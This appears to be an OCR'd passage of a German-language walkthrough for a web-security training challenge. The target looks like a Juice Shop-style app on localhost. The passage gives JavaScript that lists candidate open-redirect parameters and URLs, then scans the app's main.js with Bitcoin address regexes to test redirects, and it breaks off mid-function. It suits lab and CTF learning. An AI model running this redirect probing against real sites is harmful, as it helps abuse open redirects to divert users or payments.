 ### 🔍 Schritt 2: Redirect-Parameter analysieren

```javascript
// Suche nach redirect-fähigen Routen
function findRedirectRoutes() {
    // Typische Redirect-Parameter in Angular
    const redirectParams = [
        'redirect',
        'to',
        'url',
        'target',
        'destination'
    ];
    
    // Teste verschiedene Kombinationen
    const testUrls = [
        '/#/redirect?to=',
        '/#/redirect?url=',
        '/#/?redirect=',
        '/#/wallet?to=',
        '/#/donation?to='
    ];
    
    console.log('🧪 Test these redirect URLs:');
    testUrls.forEach(url => {
        console.log(`${url}[CRYPTO_ADDRESS]`);
    });
}
```

### 🔍 Schritt 3: BTC Address Discovery

```javascript
// Automatische BTC-Adresse Entdeckung
function discoverBTCAddresses() {
    // Bitcoin-Adressen haben spezifische Formate
    const btcPatterns = [
        /1[A-HJ-NP-Z0-9]{25,34}/g,    // Legacy (P2PKH)
        /3[A-HJ-NP-Z0-9]{25,34}/g,    // SegWit (P2SH)  
        /bc1[A-HJ-NP-Z0-9]{25,62}/g   // Bech32
    ];
    
    // Durchsuche JavaScript-Code nach BTC-Adressen
    fetch('http://localhost:3000/main.js')
    .then(response => response.text())
    .then(code => {
        console.log('🔍 Searching for Bitcoin addresses...');
        
        btcPatterns.forEach((pattern, index) => {
            const matches = code.match(pattern);
            if (matches) {
                console.log(`₿ Bitcoin addresses found (Pattern ${index}):`, matches);
                
                // Teste jede gefundene Adresse
                matches.forEach(address => {
                    testRedirectToAddress(address);
                });
            }
        });
    });
}

// Teste Redirect zu BTC-Adresse
function testRedirectToAddress(btcAddress) {
```